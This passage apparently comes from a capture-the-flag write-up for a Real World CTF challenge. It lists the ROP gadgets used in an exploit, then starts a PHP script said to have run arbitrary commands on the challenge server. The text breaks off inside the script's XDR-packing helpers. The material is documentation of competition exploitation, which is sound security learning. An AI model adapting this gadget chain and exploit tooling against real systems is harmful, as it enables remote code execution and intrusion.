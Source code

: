 ### gadgets.txt
The following gadgets have been used in the final exploit:
```
0x00493c4f: pop rdi ; ret  ;  (1 found)
0x0046aa53: pop rsi ; ret  ;  (1 found)
0x004841d6: pop rax ; pop rdx ; pop rbx ; ret  ;  (1 found)
0x00468a62: xchg eax, esp ; ret  ;  (1 found)
0x004878d5: syscall  ; ret  ;  (1 found)
0x0048fc98: int3  ; ret  ;  (1 found)
```

### pwn.php
The following script has been used execute arbitrary commands on the remote
server:
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/home/user/ctf/tools/pwn/phplib/hexdump.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Socket.php";

const COMMAND = "./server";
const HOST    = "tcp.realworldctf.com";
const PORT    = 10917;

function xdr_expect(Tube $t, $str)
{
	$t->expect(pack("N", strlen($str)));
	$t->expect($str);
	$t->expect(str_repeat("\x00", 4096 - (strlen($str) + 4)));
}

function xdr_string($buffer)
{
	$length = unpack("N", substr($buffer, 0, 4))[1];
	return substr($buffer, 4, $length);
}

function str(Tube $t)
{
	return xdr_string($t->read(4096));
}

function strs(Tube $t, $count)
{
	$ret = [];

	for($i = 0; $i < $count; $i++)
		$ret[] = str($t);

	return $ret;
}

function contact_add(Tube $t, $contacts)
{
	$buffer  = pack("N", 1);
	$buffer .= pack("N", sizeof($contacts));

	foreach($contacts as list($name, $ip)) {
		$buffer .= pack("N", strlen($name));
		$buffer .= str_pad($name, 4 * ceil(strlen($name) / 4), "\x00");

		$buffer .= pack("N", strlen($ip));
```